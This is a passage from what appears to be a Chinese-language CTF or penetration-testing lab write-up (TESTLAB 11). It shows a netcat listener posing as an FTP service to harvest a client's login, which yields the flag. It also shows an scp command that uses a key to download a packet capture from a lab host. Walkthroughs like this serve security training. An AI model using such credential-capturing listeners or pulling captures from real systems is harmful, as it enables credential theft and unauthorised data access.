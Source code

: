 使用python发包：

```bash
python -c 'print "220 Welcome to FTP Service\r\n331 SPECIFY THE PASSWORD"' | nc -nlvp 2020
```

过了几分钟得到，即得到Connect的flag为`Con_con_con`：

```bash
USER ConnectToken
PASS Con_con_con
```

![](/img/game/TESTLAB/TESTLAB11/192_168_10_1_nc_sucessed.png)

### Cloud Token

对于tcpdump的包，使用python开启简易web服务器或者直接使用`scp -i remote2.key aengineer@192.168.10.1:/var/tmp/dump.pcap dump.pcap`下载tcpdump的包，进行分析：

![](/img/game/TESTLAB/TESTLAB11/192_168_10_3_wireshark_dump_pcap.png)

